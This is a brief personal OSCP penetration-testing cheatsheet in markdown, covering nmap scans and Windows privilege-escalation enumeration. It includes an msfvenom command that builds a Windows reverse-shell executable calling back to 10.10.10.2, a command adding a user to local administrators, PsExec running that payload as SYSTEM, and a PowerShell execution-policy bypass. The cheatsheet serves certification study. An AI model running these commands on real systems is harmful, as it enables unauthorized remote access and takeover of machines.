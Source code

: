 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
full TCP scan
> sudo nmap -sC -sV -O --open -p- -oA nmap/full [targets]

full UDP scan
> sudo nmap -sU -p- -oA nmap/udp [targets]

scripts w/ ports
> sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation
## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
- **The Basics**

**Your User**
> whoami
> whoami /priv
> net user [user]

**System Config**
> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
> ipconfig /all
> netstat -ano
> tasklist /SVC


- **Payloads**

msfvenom executable payload

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe

RDP- add user to administrators group first

> net localgroup administrators [user] /add

PsExec from Windows Sysinternals

> .\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe

- **PrivEsc Enumeration Tools**

[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
> powershell -exec bypass
> . .\PowerUp.ps1
> Invoke-Allchecks

[SharpUp](https://github.com/GhostPack/SharpUp):
> .\SharpUp.exe

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
> .\SeatBelt.exe all
> .\SeatBelt.exe Nonstandard

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
> .\winPEASany.exe -h
Single check
> .\winPEASany.exe userinfo
All checks
> .\winPEASany.exe


